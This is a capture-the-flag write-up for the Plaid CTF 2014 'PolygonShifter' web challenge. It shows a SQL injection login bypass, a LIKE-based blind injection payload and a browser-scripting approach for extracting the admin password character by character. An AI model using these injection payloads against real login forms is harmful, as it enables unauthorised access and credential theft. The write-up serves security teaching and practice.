 # Plaid CTF 2014: PolygonShifter

**Category:** Web
**Points:** 100
**Description:**

> The Plague has purchased the newest invention, _Polygon Shifter_ to protect his website. This cutting edge technology is made available by Polygon Security, and they have a demo page on their [website](http://54.204.80.192/). They claim bots can no longer attack the website protected by the Polygon Shifter. Do we need to manually bruteforce the credentials?

## Write-up

Looking into the source code, we learn that there is a ‘secret’ admin account:

```html
<div class="row">
<div class="medium-10 small-centered columns">
    <h3>To demonstrate our technology, we have a form that is protected with our solution. Humans shall pass, but bots will FAIL.</h3>
    <h3>Test account is test / test</h3>
    <!--<h3>For admin interface, admin / ???????</h3>-->
</div>
</div>
```

Let’s try to log in to this admin account. We don’t have the credentials, so we’ll try SQL injection instead:

* Username: `admin' OR 'a'='a`
* Password: `random`

Great, we’re logged in! We are welcomed with the following message:

> Hello, admin!! My password is the flag!

It seems like we need to find the password using SQL injection. Let’s peek into the source code some more:

```html
<h4 class="product-header">A friendly login form; not so friendly for bots!</h4>
<div class="medium-11 small-centered columns">
    <form action="/P0zxeNVpdjH6myRHaWVS" method="POST">
        <label for="" style="text-align:left;">Username</label>
        <input type="text" id="6lyNestBnznos6FxGtGD" name="dVURHUzXGy69u5thdZY0">
        <label for="bFixmywlQhbkX1uC1oI2" style="text-align:left;">Password</label>
        <input type="password" id="bFixmywlQhbkX1uC1oI2" name="SU8IPPqzwozVlQzuaWSA">
        <input class="primary large" type="submit" value="Login">
    </form>
</div>
```

Okay, we cannot use the `id`s or `name`s of these fields to automate the process since they change for every request. No problem — we don’t really need those anyway. The source code doesn’t seem to have any more input fields, so we can just input our username in whatever’s the first input field on the page, and the password into the second field.

```js
var arr = document.getElementsByTagName('input');
arr[0].value = 'admin';
arr[1].value = "' or (password LIKE '%a%') and 1='1";
```

If we manage to successfully log in as admin using these values, we know that our query succeeded and that there’s an `a` in the password. Using a similar technique, we can slowly figure out the password character by character (cfr. [the WhatsCat challenge write-up](https://github.com/ctfs/write-ups/tree/master/plaid-ctf-2014/whatscat)).

We wrote a [PhantomJS](http://phantomjs.org/) script for this named [`client.js`](client.js). Run it as follows:

```bash
$ phantomjs client.js "(password like 'a%')"
```

After some testing, we find that the flag is `n0b0t5_C4n_bYpa5s_p0lYm0rph1Sm`.

## Other write-ups and resources

* <http://balidani.blogspot.com/2014/04/plaidctf-2014-polygonshifter-writeup.html>
* <https://ucs.fbi.h-da.de/writeup-plaidctf-2014-polygonshifter/>
* <https://blog.skullsecurity.org/2014/plaidctf-writeup-for-web-100-blind-sql-injection>
* <http://eindbazen.net/2014/04/plaidctf-2014-polygonshifter-100/>
